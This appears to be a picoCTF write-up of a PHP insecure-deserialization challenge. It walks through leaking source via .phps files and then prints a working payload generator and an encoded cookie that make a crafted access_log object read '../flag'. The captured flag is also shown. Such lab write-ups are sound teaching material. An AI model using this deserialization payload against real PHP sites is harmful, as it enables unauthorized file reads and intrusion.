






---

Opening the link and poking around the source code for the `index.php` file we find nothing, and there are no other files that are being fetched.
- So, we need to perform some reconnaissance.

> Opening the `robots.txt` file, we see something interesting.



Trying to open the `admin.phps` file, we get a 404 not found error.
- However, the extension `.phps` is used to display `php` source code, where the browser will display the file as source code.

> Since we know that we have the `index.php` file, lets see if `index.phps` will open.



This code here checks the permissions of the user that logs in, and then sets a cookie using serialization and encoding.

> We see that there 2 files being referenced, the `cookie.php` file and the `authentication.php` file, so we open their source code using the `.phps` extension.

1. `authentication.phps`



This file has the `access_log` class, and it can read the contents of a file.
- This might be useful if we can pass the name of the flag file into an `access_log` class, and make it read it for us.

2.  `cookie.phps`

```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

This code here checks for the permissions of the user, and then in the end, it decodes the value of the cookie that is set using the same serialization and encoding process in reverse found in the `index.phps` file.
- We can try to make the cookie value when it is decoded to execute PHP code, such as printing the content of the flag file. 

> So what I'll try to do is add the `login` cookie, and see what it does in the `cookie.php` page. The same can be done by sending to the `authentication.php` page as the `cookie.php` is required in the file, so its code is executed.



I added gibberish, so we got the deserialization error.
- I'll now try to follow the encoding process specified so that when it is decoded, it actually does something.

Opening an online PHP testing environment, I added the following code to try and set it as the `login` cookie:

```php
<?php
print(urlencode(base64_encode(serialize("menuuu"))));
?>
```

After running this code, it produced this output:

```text
czo2OiJtZW51dXUiOw%3D%3D
```

Setting this value as the `login` cookie, we see that the code is in fact executed, and the output is displayed:



Now what's left is to write code that reads the content of the `../flag` file as specified in the hint.

1. One thing to do is to create an object of the `access_log` class in the `authentication` file.
2. Once an object is created, the `__construct` method is immediately called, hence, we now have an object that has an attribute of whatever file name we specify (`../flag`).
3. Then in the `cookie` file, the code we enter is decoded in the `try` block, and then there are two lines that are called that will produce errors, since the `access_log` object we created cannot be called with the `is_admin()` or `is_guest()` functions.
4. Therefore, it will jump to the `except` block, and in this block, the initial decoded data of the `login` cookie is printed.
5. Since the `print` function is called, the `__toString` method is called as there is no way of printing an `access_log` object, so this default function is invoked.
6. The `__toString` function then prints the content of the `../flag` file, showing us the content of the flag.

To produce this exploit, we need the following payload that encodes and serializes an object of type `access_log` with the `log_file` variable set to `../flag`.

```php
<?php

class access_log{
 public $log_file="../flag"; 
}
 
print(urlencode(base64_encode(serialize(new access_log()))));
?>

```

This outputs:

```text
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Now, we need to set the value of the `login` cookie to this, such that it executes this code.
- However, this needs to be sent to a file that can reference the `access_log` class and its functions, the only file that accepts this is the `authentication.php` file.



The flag is output:

```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}
```

---
